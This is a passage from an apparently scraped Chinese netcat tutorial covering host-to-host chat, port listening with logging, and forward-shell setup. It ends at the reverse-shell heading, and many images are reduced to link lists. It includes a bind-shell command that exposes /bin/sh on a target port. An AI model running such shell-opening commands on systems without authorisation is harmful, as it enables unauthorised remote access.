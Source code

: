 
 
![][19]


 
###  **简易聊天**  
 
本地主机
 
命令：nc   -l   8888
 
![][20]
 
远程主机
 
命令：nc Targert_IP    Targert_Port
 
![][21]
 
### 蜜罐
 
 **作为蜜罐使用1：** 
 
命令：nc -L -p  Port
 
注：使用“-L”参数可以不停的监听某一个端口，知道Ctrl+C为止
 
 **作为蜜罐使用2：** 
 
命令：nc -L -p  Port >log.txt
 
 **注：** 使用“-L”参数可以不停的监听某一个端口，知道Ctrl+C为止，同时把结果输出到log.txt文件中，如果把“>”改为“>>”即追加到文件之后。
 
这一个命令参数“-L”在Windows中有，现在的Linux中是没有这个选项的，但是自己可以去找找，这里只是想到了之前的这个使用，所以提出来简单介绍一下！
 
### 获取shell
 
简述：获取shell分为两种，一种是正向shell，一种是方向shell。如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想要获取客户端的shell，那么称为反向shell
 
 **正向shell** 
 
 **本地主机：** 
 
命令：nc   Targert_IP  Targert_Port
 
![][22]
 
 **目标主机：** 
 
命令：nc  -lvp  Targert_Port   -e  /bin/sh
 
![][23]
 
## 反向shell
 
本地主机  ：
 

[0]: https://img1.tuicool.com/zmY7ji6.jpg 
[1]: https://img1.tuicool.com/2iA3MzA.jpg 
[2]: https://img0.tuicool.com/zQN3qqr.jpg 
[3]: https://img1.tuicool.com/6VnIRnf.jpg 
[4]: https://img2.tuicool.com/rayUZrI.jpg 
[5]: https://img1.tuicool.com/zeQVbqA.jpg 
[6]: https://img0.tuicool.com/ZzQJJjB.jpg 
[7]: https://img1.tuicool.com/VbU3IfI.jpg 
[8]: https://img1.tuicool.com/amaayuj.jpg 
[9]: https://img1.tuicool.com/YbMFz2Z.jpg 
[10]: https://img0.tuicool.com/Fn2Ijq3.jpg 
[11]: https://img2.tuicool.com/EZf6jq2.jpg 
[12]: https://img1.tuicool.com/aiaUJvb.jpg 
[13]: https://img1.tuicool.com/vY3UVb2.jpg 
[14]: https://img0.tuicool.com/YrmAnyJ.jpg 
[15]: https://img1.tuicool.com/FvANzaM.jpg 
[16]: https://img1.tuicool.com/AvE7Vbz.jpg 
[17]: https://img1.tuicool.com/7fAF7rz.jpg 
[18]: https://img0.tuicool.com/mmMR3ia.jpg 
[19]: https://img2.tuicool.com/eq6z6vV.jpg 
[20]: https://img0.tuicool.com/imy2Uny.jpg 
[21]: https://img0.tuicool.com/eARVV3n.jpg 
[22]: https://img0.tuicool.com/MnIVzy6.jpg 
[23]: https://img2.tuicool.com/rArYfea.jpg 
[24]: https://img0.tuicool.com/fYZzEzB.jpg 
[25]: https://img1.tuicool.com/Y7FZNfI.jpg 
[26]: https://img2.tuicool.com/meiaaiV.jpg 
[27]: https://img2.tuicool.com/73ERri3.jpg 
[28]: https://img0.tuicool.com/i2Aneqy.jpg 
[29]: https://img2.tuicool.com/YRveauf.jpg 
[30]: https://img2.tuicool.com/Vjayym3.jpg 
[31]: https://img1.tuicool.com/V3auuej.jpg 
[32]: https://img0.tuicool.com/aUZBbuF.jpg 
[33]: https://img0.tuicool.com/aIVbeyI.jpg 